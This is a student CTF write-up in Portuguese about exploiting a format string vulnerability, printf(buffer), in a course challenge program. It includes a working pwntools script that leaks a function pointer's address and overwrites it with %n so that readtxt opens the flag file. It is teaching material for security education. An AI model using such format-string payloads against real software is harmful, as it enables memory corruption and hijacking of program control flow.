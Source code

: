 # CTF Semana #6 (Format String)

Este documento apresenta as etapas seguidas para a exploração de *format string vulnerabilities* para ler/escrever de/para endereços de memória arbitrários, não necessariamente na stack.

## 1. Reconhecimento

Analisando o programa do `main.c`, observamos que há uma instrução `printf(buffer)` onde não é definida a format string. Isto significa que esta instrução imprime diretamente o conteúdo do buffer, que é controlado pelo user, sem especificar um formato seguro. Assim, esta linha torna o programa vulnerável (Figura 2).

![Figura 1](Images/CTF6/Figura2.png)

*Figura 1: identificação da vulnerabilidade format string no `main.c`.*


## 2. Encontrar um Exploit

Para fazer o exploit desta vulnerabilidade, vamos tentar fazer com que `fun` aponte para a função `readtxt` e passar a string `flag` como argumento da função, uma vez que é o nome do ficheiro que queremos abrir.

Para isso, precisamos do endereço da função `readtxt` e da variável `fun`.

O endereço de `readtxt` foi obtido através do `gdb program` como mostra a Figura 2.

![Figura 2](Images/CTF6/Figura3.png)

*Figura 2: obtenção do endereço de `readtxt`*

Ao corrermos o `program` e analisando o `main.c` em simultâneo, observamos que o programa imprime o valor do endereço da variável `fun` cada vez que é executado. Este valor é randomizado (e diferente) a cada execução do programa. Por esse motivo, não conseguimos obter o seu valor apenas correndo o programa e guardando o valor que lemos (Figura 3).

![Figura 3](Images/CTF6/Figura4.png)

*Figura 3: endereço de `fun` diferente em cada execução de `program`.*

Como alternativa, podemos tentar ler o endereço de `fun` do programa diretamente no ficheiro do `exploit-template.py`. Conseguimos isto com o seguinte comando:

```python
fun = res[int(res.find(b"hint:") + 6):int(res.find(b"hint:") + 14)]
```

Com estas informações conseguimos escrever o payload para colocar no `exploit-template.py`:

**1.** `"./flagxx"` - para `readtxt` receber "./flag" como argumento e interpretar "flag" como o nome do ficheiro (o `readtxt` apenas considera os primeiros 6 bytes do argumento para o nome do ficheiro). Os caracteres "xx" são para que o tamanho do input seja um múltiplo de 4 bytes para garantir o alinhamento da stack. 

**2.** `fun` - adicionar o endereço de `fun` que queremos subscrever no formato little-endian. 

**3.** `%x%x%n`: o `%n` escreve o tamanho da string no address para que está a apontar. O address de `fun` é o terceiro endereço por isso podemos escrever `%x` 2 vezes e `%n` já vai estar a apontar para `fun`. Como queremos escrever no endereço do `readtxt`, podemos utilizar `%<num>x$n`, em que `%<num>x` substitui o segundo `%x`, para especificar o address para onde vamos escrever:

```
num = address de readtxt - 8 bytes (./flagxx) - 4 bytes (fun) - 8 bytes (%x)
```

Assim, o ficheiro `exploit-template.py` vai ser o seguinte:

```python
#!/usr/bin/python3 
from pwn import *

r = remote('ctf-fsi.fe.up.pt', 4001)
#r = remote('127.0.0.1', 4003)
#r = process('./program')

context(arch='i386')

res = r.recvuntil(b"flag:\n")
print(res)

get_fun = res[int(res.find(b"hint:") + 6):int(res.find(b"hint:") + 14)]
int_fun = int(get_fun, 16)
fun = p32(int_fun)

num = int(0x80497a5) - 8 - 4 - 8

payload = b"./flagxx" + fun + b"%x%" + str(num).encode() + b"x%n"
r.sendline(payload)

buf = r.recvall().decode(errors="backslashreplace")
print(buf)
```

## 3. Explorar a Vulnerabilidade

Ao correr o exploit com `python3 exploit-template.py` conseguimos determinar a flag deste CTF (Figura 4)!

![Figura 4](Images/CTF6/Figura5.png)

*Figura 4: flag obtida ao explorar a vulnerabilidade*

